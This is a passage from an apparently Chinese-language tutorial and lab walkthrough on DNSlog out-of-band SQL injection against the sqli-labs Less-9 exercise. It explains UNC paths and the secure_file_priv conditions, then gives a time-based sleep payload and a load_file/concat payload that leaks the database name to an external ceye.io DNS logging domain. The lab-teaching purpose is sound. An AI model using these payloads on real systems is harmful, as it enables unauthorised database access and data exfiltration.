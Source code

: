 `load_file()`：可以读取服务器上的固定路径下的文件的内容。

#### UNC路径

**UNC** (Universal Naming Convention，通用命名规则），也叫通用命名规范、通用命名约定，为网络（主要指局域网）上资源的完整 Windows 2000 名称。UNC路径就是类似\\softer这样的形式的网络路径。UNC为网络（主要指局域网）上资源的完整 Windows 2000 名称。

**格式**： \\servername\sharename ，其中 servername 是服务器名，sharename 是共享资源的名称。
目录或文件的 UNC 名称可以包括共享名称下的目录路径，格式为：\\servername\sharename\directory\filename。

**unc共享就是指网络硬盘的共享**。当访问softer计算机中名为it168的共享文件夹，用UNC表示就是\\softer\it168；如果是softer计算机的默认管理共享C$则用\\softer\c$来表示。我们访问网上邻居所采用的命令行访问法，实际上应该称作**UNC路径访问法**。

### 2.条件

- mysql.ini中secure_file_priv必须为空
- secure_file_priv 为null 不允许导入导出
- secure_file_priv 为/tmp 导入导出只能在/tmp目录下
- secure_file_priv 为空时 则不做限制允许导入导出

### 3.详解

以load_file("//(select database()).ynu.edu.cn/sharename")为例，原理过程如下：

1. 攻击者实行`load_file("//(select database()).我的域名/sharename")`注入
2. web服务器接收后转交到数据库执行查询
3. 数据库查询到结果后，将查询结果和后边的域名进行拼接
4. 发送报文到本地dns对该拼接好的url进行域名解析
5. 我们只要获得DNS的日志记录，就可以看到Web服务器数据库查询的结果了。

`但前提是我们要有一个自己的域名，然后在域名商处配置一条NS记录，然后我们在NS服务器上获取NDS日志即可。可以使用以下网站辅助进行dnslog注入`

**需要使用的网站**

```http
#使用其中一个就行
http://ceye.io
http://www.dnslog.cn/
```

### 4.靶场实战（less-9）

1.判断闭合符和类型。

执行以下代码，发现，三秒钟后才刷新页面，证明判断正确。属于字符型，闭合符是`'`。

```sql
http://192.168.37.148/sql/Less-9/?id=1' and sleep(3) -- 
```

2.登录http://ceye.io，获得一个域名，实行dnslog注入，并在网站上查看dns查询日志

```sql
http://192.168.43.26/sql/Less-9/?id=1' and (select load_file(concat("//",(select database()),".7wusc8.ceye.io/123"))) -- 
```

执行命令前
